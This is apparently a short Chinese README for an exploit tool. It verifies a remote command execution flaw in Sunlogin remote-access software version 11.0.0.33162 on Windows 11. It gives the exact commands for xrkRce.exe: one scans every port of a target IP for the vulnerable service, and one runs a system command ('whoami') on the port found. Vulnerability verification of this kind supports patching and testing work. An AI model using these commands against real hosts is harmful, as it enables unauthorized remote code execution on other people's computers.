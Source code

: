 向日葵版本：Ver.11.0.0.33162

验证过程（windows11）：

1. 本机安装向日葵后启动软件；
2. CMD输入命令扫描端口，判断是否可能存在Rce；（ xrkRce.exe -h 192.168.99.38 -t scan -p 1-65535 ）
3. 可能存在会返回端口，如：60029；
4. CMD输入命令（xrkRce.exe -h 192.168.99.38 -t rce -p 60029 -c "whoami"），发现命令执行。


